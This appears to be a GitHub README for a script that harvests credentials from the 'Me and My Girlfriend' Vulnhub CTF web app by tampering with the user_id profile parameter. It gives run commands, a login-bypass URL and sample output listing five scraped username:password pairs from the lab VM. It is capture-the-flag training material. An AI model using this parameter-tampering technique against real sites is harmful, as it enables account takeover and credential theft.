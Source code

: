 # MeAndMyGirl-CTF-Creds-Harvester
A not so robust script for harvesting the credentials of the Me and My Girlfriend CTF's web app accounts. The script achieves this by exploiting the parameter tampering privilege escalation flaw at `http://x.x.x.x/index.php?page=profile&user_id=x`.

# Usage
## Obtain authenticated session cookie
**Option 1:** Register an account, then login and copy the session cookie's value from your network tab of the developer tools.
**Option 2:** Navigate to `http://x.x.x.x/misc/process.php?act=login` the app will bypass login, then copy the session cookie's value from your network tab of the developer tools.

## Run scrape.py
```
python3 scrape.py 192.168.56.123 -sessid r4irnlb966u3b7a6sv0iupc1m4 -suid 1 -euid 5
python3 scrape.py 192.168.56.123:8080 -sessid r4irnlb966u3b7a6sv0iupc1m4 -suid 1 -euid 5
```
**Note:** The first argument to the script should be the address of the VM.

## Example
```
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Me_and_My_Girlfriend]
└─$ ./stealer.py 192.168.56.121 -sessid r4irnlb966u3b7a6sv0iupc1m4 -suid 1 -euid 7
[i] Requests:
http://192.168.56.121/index.php?page=profile&user_id=1 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=2 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=3 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=4 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=5 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=6 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=7 [ SUCC, Status: 200 ]
[i] Scraped 5 credentials
eweuhtandingan:skuyatuh
aingmaung:qwerty!!!
sundatea:indONEsia
sedihaingmah:cedihhihihi
alice:4lic3
[*] Done!
```
